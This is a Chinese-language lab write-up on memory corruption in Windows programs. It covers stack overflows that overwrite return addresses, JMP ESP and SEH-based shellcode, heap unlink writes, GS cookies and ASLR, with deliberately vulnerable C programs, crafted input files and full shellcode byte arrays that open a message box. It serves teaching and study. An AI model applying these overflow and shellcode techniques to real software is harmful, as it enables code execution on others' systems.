堆栈溢出攻击
栈溢出
内存和寄存器的知识：软件安全 - 内存与寄存器
寻找栈溢出
#include <stdio.h> #include <string.h> void fun() { char s_passwd[6] = "ABCDE"; char str[6]; gets(str); str[5] = 0; if(strcmp(str, s_passwd) == 0) printf("OK\n"); else printf("NO\n"); } int main(int argc, char const *argv[]) { fun(); return 0; }
二进制分析
正常运行结果：
利用特意构建得字符串覆盖正常的内存区域，以跳过密码验证。此时原先正常的内存区域被溢出的字符串覆盖，原来的字符串被修改成“aaaaa”密码验证通过，下图为实际运行过程中的内存，很奇怪的是 0x12ff28 处不是 61000000，而是一个 RET 返回地址，感觉是这是系统一种异常处理机制或者是栈帧移动
输入 23 个字符的情况，导致这一块内存区域被置零，应该是触发了 Windows 或 VC 的一场处理。但是寄存器还是接受到了这些值，EIP 和 EBP 都指向了一个不存在的内存地址，导致程序异常而出现错误代码提示。
利用 RET 进行栈溢出攻击
#include <stdio.h> #include <string.h> #include <stdlib.h> void Attack() { printf("Hello!:-)\n"); exit(0); } void fun() { char s_passwd[6] = "ABCDE"; char str[6]; FILE *f_o; if(!(f_o = fopen("C:\\Program Files\\Microsoft Visual Studio\\MyProjects\\reverseProject\\Debug\\passwd.txt", "r"))) exit(0); fscanf(f_o, "%s", str); str[5] = 0; if(strcmp(str, s_passwd) == 0) printf("OK\n"); else printf("NO\n"); } int main(int argc, char const *argv[]) { fun(); return 0; }
二进制分析
修改返回地址执行使得程序转而执行 Attack()。 正常运行结果（左），攻击后运行结果（右）：
|  |  |
EIP 指向 Attack() 函数的入口地址，这是通过精心构造的 passwd.txt 文件实现的，输入了 23 个字符，根据正常的 RET 位置，我修改了文件的后 3 个字符为十六进制的 301040 即 Attack() 函数的入口地址 0x401030，以此覆盖原来正常的 RET 地址，原 RET 地址是指向 main() 函数，覆盖后程序在执行完 fun() 函数后继而执行 Attack() 函数，这样 VC 6.0 没有报错，因为覆盖后的地址是存在且可执行的，之后 exit(0) ，程序正常结束，像是正常运行结束一样。
passwd.txt
// passwd.txt(Hex) 6161 6161 6262 6262 6363 6363 6464 6464 6565 6565 3010 40
|  | |
|  |  |
这种攻击修改了 RET 地址，让正常的程序转而执行事先设计的一个地址的指令，而且让 VC 没有报错。
利用 Shellcode 进行栈溢出攻击
#include <stdio.h> #include <stdlib.h> #include <string.h> #include <windows.h> #define PASSWD "1234567" int verify_passwd(char *passwd) { int authenticated; char buffer[44]; authenticated = strcmp(passwd, PASSWD); strcpy(buffer, passwd); return authenticated; } main(int argc, char* argv[]) { int valid_flag = 0; char passwd[1024]; FILE *fp; LoadLibrary("user32.dll"); if(!(fp = fopen("passwd.txt", "r"))) exit(0); // fscanf(fp, "%s", passwd); // 我使用fscanf()函数攻击不成功，fscanf()总是只读取passwd.txt文件的前20个字节 // 使用fgets()函数可以攻击成功 fgets(passwd, 100, fp); valid_flag = verify_passwd(passwd); if(valid_flag) printf("Incorrect password!\n"); else printf("Congratulation! You have passed the verification!\n"); fclose(fp); return 0; }
二进制分析
使用 Depends 获取到 MessageBoxA 函数的入口地址
调试程序，获取 buffer 的地址
|  |  |
设计 passwd 文件
成功实现了代码注入，弹出了一个对话框
|  |  |
利用 JMP ESP 进行栈溢出攻击
#include <stdio.h> #include <stdlib.h> #include <string.h> #include <windows.h> void Attack() { printf("Hello!:-)\n"); exit(0); } void fun() { char passwd[6] = "ABCDE"; char str[6]; FILE *fp; if (!(fp = fopen("passwd.txt", "r"))) exit(0); fscanf(fp, "%s", str); str[5] = 0; if (strcmp(str, passwd) == 0) printf("OK!\n"); else printf("NO!\n"); } int main(int argc, char const *argv[]) { LoadLibrary("user32.dll"); fun(); return 0; }
二进制分析-4
相比 3 （利用 Shellcode 进行攻击） 的改进： 程序可以正常退出。 参考 3 中的 Depend 找到 exitThread （或类似）函数的地址。
找到一个 JMP ESP 指令的地址
构造 shellcode: 最主要的是要让函数的返回地址改成 JMP ESP 的地址，让程序跳转到 esp 之后往下执行，最后调用 exitThread 函数，使得函数正常退出，完成代码注入
堆溢出
堆块示意图：
操作示例：
void DeleteBlock(HeapBlock *p) { p->next->previous = p->previous; p->previous->next = p->next; }
进行两次内存的 write 操作。
DWORD shoot
or named ’arbitrary DWORD rest’
攻击者可以利用数据覆盖这两个 previous 和 next 指针，例如:
空闲堆块 *p ，两个指针被覆盖为 p->previouos=X, p->next=Y ， 如果 *p 要被分配出去，需要将 *p 从空闲堆块列表删除，执行 DeleteBlock(*p) 操作，即把 Y 指向的地址处的数据写入 X 。
p->next->previous = p->previous;
这个代码实际上是取得 p->next 这个指针指向的内存处的前 4 个字节（ previous block 就是某一 block 的前 4 字节）， 即对 Y 解引用 *Y ， 则代码变成
*Y = X;
攻防博弈
本质原因：内存中的数据可被当作指令执行。
| 攻 | 防 |
|---|---|
| 基础缓冲区溢出 | GS cookie |
| SEH 利用 | SafeSEH |
| P/P/R | SEHOP |
| 伪造 SEH 链表 | ASLR |
| Heapspray | DEP |
| ROP | DEP+ASLR |
| JIT Spray | … |
GS cookie
又名“金丝雀”，因 18，19 世纪的煤矿中使用“金丝雀”来探测瓦斯泄露而得名。
源代码
#include <stdio.h> #include <string.h> //#define _CRT_SECURE_NO_WARNINGS #pragma warning(disable:4996) // char name[] = { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 }; void overFlow(); int main(int argc, char const *argv[]) { overFlow(); printf("Function returned!"); return 0; } void overFlow() { char output[8]; strcpy(output, name); for (int i = 0; i < 8 && output[i]; i++) printf("\\0x%x", output[i]); }
二进制分析
开启 /GS 编译选项后，程序不能正常执行，在检测到栈溢出之后会引发异常，只能中断退出
在单步调试过程中，查看内存与寄存器，内存中 old ebp – 4 就是安全 cookie 的值，该值是随机生成的初始 cookie 与寄存器 EBP 异或得到的值
寻找初始 cookie，分析反汇编代码可以看到初始 cookie 的地址 04B9034h 处，在内存跳转到该地址，我们可以看到初始 cookie 为 6531546D ， 6531546D⊕00CFF8BC = 65FEACD1 等于上图中的 cookie 值
动态基址 ASLR
以 Windows 7 64 位旗舰版，Visual Studio 2013 为例。
源代码
#include <stdio.h> #include <stdlib.h> #include <Windows.h> unsigned long g_var = 0; void printAddress() { printf("printAddress's Address: %p\n", printAddress); g_var++; } int main(int argc, char const *argv[]) { HMODULE hMod = LoadLibrary(L"Kernel32.dll"); void *pvAddress = GetProcAddress(hMod, "LoadLibraryW"); printf("Kernel.dll's Address: %p\n", hMod); printf("LoadLibrary's Address: %p\n", pvAddress); printAddress(); printf("g_var's Address: %p\n", &g_var); if (hMod) FreeLibrary(hMod); return 0; }
开启动态基址
系统 dll 以及系统函数的地址没有改变，全局变量和代码中编写的函数地址每次运行都会改变；
重启电脑后系统 dll 和系统函数改变，全局变量和代码中编写的函数地址每次运行都会改变。
关闭动态基址
系统 dll 以及系统函数的地址没有改变，全局变量和代码中编写的函数地址每次运行均不会改变；
重启后只是系统 dll 即系统函数地址变了。
SEH 利用
源代码
extern "C" __declspec(dllimport) jump(); #include <stdio.h> #include <string.h> #include <windows.h> char shellcode [] = "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\xeb\x10\x90\x90" "\x68\x10\x34\x12" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x33\xDB\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53" "\x50\x50\x53\xB8\x53\x93\xD2\x77\x33\xDB\x53\x68\x77\x65\x73\x74" "\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50\x53\xB8\xEA\x07\xD5\x77" "\xFF\xD0\x53\xB8\xE8\xC0\x80\x7C\xFF\xD0\x90\x90\x90\x90\x90\x90"; // x53, xb8, x90, x90, xe8, xc0, x80, x7c, xff, xd0, x90, x90,x0a, x10, x34, x12, // x05, x10, x40, x00, // Exception Function char shellcode1[] = "\x33\xDB\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53" "\x50\x50\x53\xB8\x53\x93\xD2\x77\x33\xDB\x53\x68\x77\x65\x73\x74" "\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50\x53\xB8\xEA\x07\xD5\x77" "\xFF\xD0\x53\xB8\xE8\xC0\x80\x7C\xFF\xD0\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90" "\x90\x90\x90\xe9" // second jump "\x34\xff\xff\xff" "\x90\x90\x90\x90" "\xeb\xf2\x90\x90" // first jump // Next SEH record pointer "\x68\x10\x34\x12"; // SEH hardler void ZeroDivisionExcept(void) { printf("Error!\n"); printf("Test\n"); } void test(char *input) { char buf[200]; int zero = 0; strcpy(buf, input); __try { zero = 8 / zero; printf("HHHHH\n"); } __except(ZeroDivisionExcept()) {} jump(); } void main(int argc, char const *argv[]) { LoadLibrary("user32.dll"); test(shellcode); }
二进制分析 shellcode
特意构建的 dll 中包含 pop,pop,retn 三条汇编指令，为了跳转回 shellcode 而编写的。基地址是自己设置的 0x12340000，三条汇编指令的起始地址通过 ollydbg 查找得到的是 0x12341068
利用缓冲区溢出漏洞覆盖 buf[200] 数组，可以看 buf[]及后面的区域已经被覆盖
|  |  |  |
Pointer to next SEH record 是指向下一个 SEH 异常处理函数，+4 处是 SE handler 是下一个 SEH 异常处理函数的入口地址。这里我们把其覆盖成 jump 函数中三条特意构造用于实现的攻击的汇编指令地址。
在 ollydbg 中调试知，利用的 windows 内核一个函数的栈帧实施的跳转，这个函数是 windows 用于实现异常处理的，ESP + 8 处是我们覆盖的 next SEH record，我们覆盖的 SEH handler 在此内核函数中的被调用，于是系统在执行这个内核函数时，两次弹栈， 新 ESP = ESP + 8，retn 指令让 EIP 指向 ESP，于是程序跳转回 0x0012ff18，此处我们覆盖的是 0x909010EB，再往内存高位跳转 16 字节，程序跳转到 0x0012ff2a 执行，进入我们覆盖好的第二段 shellcode 执行，shellcode 见源代码，为了正常执行，程序引用了 user32.dll
Ollydbg 中程序跳转回 shellcode 的情形
程序运行后成功弹出“failwest”弹窗。
进一步分析，程序利用的 ntd.dll 中的系统函数实现的从异常处理函数跳转回 shellcode ，但从 ollydbg 中的调试情况看，0x3247、0x3282 等地址没有函数，应该是编译器直接使用的那一段地址中的函数的某些部分实现的异常处理，在我们利用的那个异常处理函数中，栈帧很简单， ESP+8 处的值是 next SEH record，给了我们跳转回来的机会，同时也知道了异常处理并不是直接执行 SEH handler 处的函数，而是经过了多次函数调用最后才跳转到 SEH handler 处执行的
二进制分析 shellcode1
利用 JMP SHORT 和 JMP 实现的两步跳转执行的 ShellCode。通过 ollydbg 编写相应的汇编指令，可以得到机器码
第一次跳转
第二次跳转
程序运行后成功弹出“failwest”弹窗。
通过 ollydbg 分析后可以编写出精简版的 shellcode，即代码中的 shellcode1。